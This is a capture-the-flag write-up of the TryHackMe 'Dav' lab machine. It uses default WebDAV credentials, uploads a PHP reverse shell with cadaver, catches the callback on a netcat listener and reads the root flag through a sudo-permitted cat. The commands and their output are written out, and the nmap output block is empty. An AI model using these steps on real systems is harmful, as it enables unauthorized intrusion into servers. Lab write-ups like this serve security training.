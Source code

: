 # THM - Dav

#### Ip: 10.10.187.168
#### Name: Dav
#### Difficulty: Easy

----------------------------------------------------------------------

![dav.jpeg](../assets/dav_assets/dav.jpeg)

```text
Read user.txt and root.txt
```

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
```

Heading to the site on port 80 we find a default Apache landing page:

site.png

With a name like Dav, I guessed the machine likely had to incorporate webdav, so I navigated to http://10.10.187.168/webdav/ and was prompted to authenticate.

login.png

Luckily here I was able to use the default webdav credentials of wampp:xampp and was able to login:

index.png

There is a password.dav file, but I'm not sure how useful that is to us as we already have working credentials.

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update our IP and port we'll be listening on:

php.png

We can then login using cadaver and use the `put` function to load our shell:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ cadaver http://10.10.187.168/webdav/
Authentication required for webdav on server `10.10.187.168':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5519 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
        php-reverse-shell.php               5519  Sep 14 11:29
Terminated by signal 2.
Connection to `10.10.187.168' closed.
```

We can confirm the shell was uploaded:

confirm.png

And if we click on it we trigger the call back to our listener:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ nc -lnvp 8888                                      
listening on [any] 8888 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.187.168] 41040
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:33:14 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ubuntu
$ python -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$
```

From here we can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` we see we have the permissions to use cat and read any file we'd like to on the system:

```text
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

So we can grab the final flag by running:

```text
sudo /bin/cat /root/root.txt
```

root_flag.png

You can see in the screen shot above I tried to access a few other files in order to get an actual shell as root, rather than just grabbing the flag, but had no luck. 

I couldn't recall having ever seen a (!) character in place of the root password hash in the `/etc/shadow` file before, but apparently that means the password is locked, which led me to believe this was as far as I was getting in the challenge.

locked.png

Thanks for following along!

-Ryan
